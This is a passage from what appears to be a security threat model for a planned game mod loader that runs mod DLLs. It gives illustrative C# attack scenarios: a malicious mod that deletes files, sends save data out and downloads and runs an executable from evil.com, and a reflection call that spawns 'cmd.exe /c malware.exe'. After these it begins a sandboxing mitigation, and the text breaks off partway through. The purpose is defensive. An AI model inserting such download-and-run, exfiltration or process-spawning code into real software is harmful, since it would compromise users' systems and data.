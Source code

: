 **Planned Feature (Phase 4):**
> "ModLoader will load .dll files from mods and execute a designated entry point"

**Vulnerability:** Remote Code Execution (RCE)

**Attack Scenarios:**

1. **Malicious Mod DLL:**
```csharp
// Malicious mod code
public class EvilMod : IMod
{
    public void Initialize()
    {
        // Delete user files
        File.Delete("C:\\Users\\*\\Documents\\*");

        // Exfiltrate data
        SendDataToAttacker(File.ReadAllText("save_game.json"));

        // Install malware
        DownloadAndExecute("http://evil.com/malware.exe");

        // Cryptolocker
        EncryptAllUserFiles();
    }
}
```

2. **Reflection Abuse:**
```csharp
// Bypass security via reflection
Assembly.Load("System.Management")
    .GetType("System.Management.ManagementClass")
    .GetMethod("InvokeMethod")
    .Invoke(null, new[] { "Win32_Process", "Create", "cmd.exe /c malware.exe" });
```

**Impact:** **CRITICAL**
- Complete system compromise
- Data theft
- Ransomware installation
- Privacy violations

**Mitigations Required:**

#### A. Mod Sandboxing via AssemblyLoadContext

```csharp
public class SandboxedModLoader : IModLoader
{
    private readonly ILogger<SandboxedModLoader> _logger;
    private readonly ModSecurityPolicy _securityPolicy;

    public void LoadMod(string modPath)
    {
        // 1. Create isolated AssemblyLoadContext
        var context = new ModAssemblyLoadContext(modPath, isCollectible: true);

        try
        {
            // 2. Load mod assembly in isolated context
            Assembly modAssembly = context.LoadFromAssemblyPath(modPath);

            // 3. Verify mod signature (optional but recommended)
            if (_securityPolicy.RequireSignedMods && !VerifySignature(modAssembly))
            {
                _logger.LogWarning("Unsigned mod rejected: {ModPath}", modPath);
```